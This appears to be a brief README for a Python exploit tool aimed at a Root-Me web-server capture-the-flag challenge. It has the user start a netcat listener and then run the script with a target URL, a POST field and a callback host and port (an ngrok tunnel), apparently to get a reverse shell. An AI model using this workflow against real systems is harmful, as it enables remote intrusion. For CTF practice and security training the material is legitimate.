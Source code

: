 

# How to use ?

You must open a netcat listener before : nc -lvp Your listening port

Then launch :

> python3 main.py -u url -d post_variable -lhost Your listening ip -lport Your listening port

Example : 
> python main.py -u http://challenge01.root-me.org/web-serveur/ch41/check -d nickname -lhost 2.tcp.ngrok.io -lport 11598

